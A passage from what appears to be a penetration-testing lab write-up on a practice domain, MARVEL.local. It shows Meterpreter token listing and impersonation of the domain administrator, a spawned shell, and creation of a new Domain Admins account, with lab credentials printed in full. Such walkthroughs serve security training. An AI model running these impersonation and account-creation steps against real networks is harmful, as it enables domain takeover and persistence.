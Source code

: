 Then we log in as a domain admin with the credentials
`MARVEL\administrator:P@$$w0rd!`. Once we are logged in, there is a delegate
token for the `administrator` user, too, which we can impersonate as before.

```
meterpreter > list_tokens -u

Delegation Tokens Available
========================================
Font Driver Host\UMFD-0
Font Driver Host\UMFD-3
MARVEL\Administrator
NT AUTHORITY\LOCAL SERVICE
NT AUTHORITY\NETWORK SERVICE
NT AUTHORITY\SYSTEM
Window Manager\DWM-3

Impersonation Tokens Available
========================================
No tokens available
```

Sometimes users may just `Switch user` in Windows instead of properly signing
out. Then their delegate token will still be available for us to impersonate,
therefore we should always list the available tokens.

```
meterpreter > impersonate_token MARVEL\\Administrator
[+] Delegation token available
[+] Successfully impersonated user MARVEL\Administrator
meterpreter > shell
Process 7152 created.
Channel 4 created.
Microsoft Windows [Version 10.0.19045.6093]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami
whoami
marvel\administrator
```

Finally, we create a new user and add it to the domain admins group as a
proof-of-concept.

```
C:\Windows\system32>net user /add hawkeye Password1@ /domain
net user /add hawkeye Password1@ /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.


C:\Windows\system32>net group "Domain Admins" hawkeye /add /domain
net group "Domain Admins" hawkeye /add /domain
The request will be processed at a domain controller for domain MARVEL.local.

The command completed successfully.
```
